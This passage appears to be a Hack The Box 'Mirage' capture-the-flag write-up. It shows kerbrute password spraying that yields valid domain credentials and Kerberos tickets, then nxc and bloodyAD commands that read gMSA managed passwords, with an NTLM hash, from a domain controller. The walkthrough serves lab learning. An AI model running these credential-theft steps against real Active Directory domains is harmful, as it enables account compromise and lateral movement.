     objectGUID: c52e731b-30c1-439c-a6b9-0c2f804e5f08
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1108
    primaryGroupID: 513
    pwdLastSet: 2025-07-23 06:30:13.784490+00:00
    sAMAccountName: javier.mmarshall
    sAMAccountType: 805306368
    uSNChanged: 159874
    uSNCreated: 24655
    userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
    userPrincipalName: javier.mmarshall@mirage.htb
    whenChanged: 2025-07-23 06:30:15+00:00
    whenCreated: 2025-05-02 08:33:11+00:00



```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Valid user => javier.mmarshall
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => javier.mmarshall:Password1234!
    [*] Saved TGT in javier.mmarshall.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache
    [*] Stupendous => mark.bbond:MARKBONDPASS
    [*] Saved TGT in mark.bbond.ccache


Looks like it worked, full access to javier now.

We can finally leverage that readgMSA privilege from Bloodhound.

These are two ways to do the same thing with nxc and bloodyAD, both need to be ran through getTGT to convert the NTLM hash into a ticket.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./javier.mmarshall.ccache nxc ldap dc01.mirage.htb -d mirage.htb --use-kcache --gmsa 
```

    LDAP        10.129.28.199   389    dc01.mirage.htb  [*]  x64 (name:dc01.mirage.htb) (domain:mirage.htb) (signing:True) (SMBv1:False)
    LDAP        10.129.28.199   636    dc01.mirage.htb  [+] mirage.htb\javier.mmarshall from ccache
    LDAP        10.129.28.199   636    dc01.mirage.htb  [*] Getting GMSA Passwords
    LDAP        10.129.28.199   636    dc01.mirage.htb  Account: Mirage-Service$      NTLM: 305806d84<snip>c7866



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./javier.mmarshall.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object 'mirage-service$' --attr msDS-ManagedPassword
```
